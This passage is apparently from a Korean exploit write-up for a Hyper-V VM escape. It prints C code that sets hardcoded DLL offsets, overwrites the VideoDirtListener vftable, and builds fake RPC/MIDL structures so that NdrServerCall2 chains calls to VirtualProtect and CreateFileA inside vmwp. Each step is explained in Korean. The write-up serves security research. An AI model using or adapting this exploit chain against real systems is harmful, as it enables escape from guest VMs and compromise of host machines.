 ## Exploit Code

### Variables
```C
	__int64 rpcrt4_guard_check_icall_fptr = RPCRT4 + 0xe94f0, KernelBase_VirtualProtect = KernelBase + 0x64030, ret = RPCRT4 + 0x58480 + 0x1e;//RPCRT4!NdrServerCall2 + 0x1e => ret


	char* payload = (char*)VideoDirtListenerOffset;
	PRPC_MESSAGE pRpcMsg = NULL;
	PRPC_SERVER_INTERFACE pServerInterface = NULL;
	PMIDL_SERVER_INFO pMidl = NULL;
	__int64* node = NULL;

	__int64 start = VideoDirtListener, DispatchTable = start + 0x100 * INDIRECT_CALL_CHAIN_LEN, MidlStubDesc = DispatchTable + sizeof(__int64) * INDIRECT_CALL_CHAIN_LEN, MidlSrvInfo = MidlStubDesc + sizeof(MIDL_STUB_DESC), ServerInterface = MidlSrvInfo + sizeof(MIDL_SERVER_INFO);
	__int64 ProcStringAddress = ServerInterface + sizeof(RPC_SERVER_INTERFACE), FmtStringOffsetAddress = ProcStringAddress + 0x100, vftable = FmtStringOffsetAddress + sizeof(short) * 0x10;
	char* ProcString = ((char*)VideoDirtListenerOffset) + (ProcStringAddress - start);
	int ProcStringCursor = 0;
	WORD* FmtStringOffset = ((char*)VideoDirtListenerOffset) + (FmtStringOffsetAddress - start);
	for (int i = 0; i < INDIRECT_CALL_CHAIN_LEN; i++) {
		FmtStringOffset[i] = 0;
	}
```

필요한 변수들을 초기화하는 부분입니다. 타겟 힙에서 유출한 DLL 주소로 `rpcrt4!__guard_check_icall_fptr`, `VirtualProtect` 등의 주소를 변수에 저장합니다. `start`, `DispatchTable` 등 정수형 변수들은 vmwp의 가상 메모리 주소를 저장하고 있습니다. 아까 위에서 본 페이로드 구조에서 알 수 있듯이 페이로드 안에서 다양한 구조체들이 서로를 가리키고 있기 때문에 미리 해당 주소를 계산해두었습니다. 그 외에 포인터 변수들은 vmwp가 아닌 Exploit 프로세스의 메모리에서 페이로드에 데이터를 쓸 때 사용합니다.

### vftable

```C
	VideoDirtListenerEntries[2] = combase + 0x17d9b0;//vmemulateddevices!VideoDirtListener::PrepareSelf -> combase!RegistrationStore::Context::RevertChanges
	VideoDirtListenerEntries[0x70 / 0x8] = RPCRT4 + 0x58480;//RPCRT4!NdrServerCall2
	VideoDirtListenerEntries[0] = DispatchTable + 8 - 0x70;// -> RPCRT4!NdrpServerUnmarshal's indirect call must return 0, point to VirtualProtect & make it fail to return 0
	VideoDirtListenerEntries[1] = 0x33307c89abcdef;//NdrStubCall2+0x4c0
```

`VideoDirtlistenerEntries`는 `VideoDirtListener`의 vftable의 데이터가 저장되어 있습니다. 간접 호출을 반복하기 위해 `VideoDirtListener::PrepareSelf`를 `combase!RegistrationStore:Context:RevertChanges`로 바꿔주고 `RevertChanges`에서 호출될 함수는 `NdrServerCall2`로 조작해두었습니다. 그리고 `NdrStubCall2`와 `NdrpServerUnMarshal`에서 `RpcRaiseException`이 호출되는 것을 막기 위해 0번째, 1번째 엔트리를 수정했습니다.

### ProcDesc & ProcString
`NdrServerCall2`에서 함수 호출에 필요한 인자를 Unmarshaling하는데 필요한 ProcString과 ProcDesc도 잘 설정해줘야 합니다. 첫 번째 노드(`VideoDirtListener`)는 루프를 시작하기 위해 `RevertChanges`를 호출하는 역할만 하고 두 번째 노드부터 차례로 `VirtualProtect`, `GetCopy`, `CreateFileA`를 호출합니다. 따라서 인자의 수는 이미 정해져 있으니 이에 맞춰 ProcString과 ProcDesc를 초기화합니다. 반복문에서 사용된 i는 ProcNum이자 노드의 번호입니다.
그 외에 vftable 주소를 변경하고 `RevertChanges`에서 사용될 `Blink`를 다음 노드의 주소로 설정하고 `RPC_MESSAGE`의 필드들도 설정해줍니다.
이후 switch-case로 i에 따라 `BufferLength`, `NumberParams`, `StackSize` 등을 설정하고 이후 `NumberParams`개의 `Param`을 초기화해줍니다.
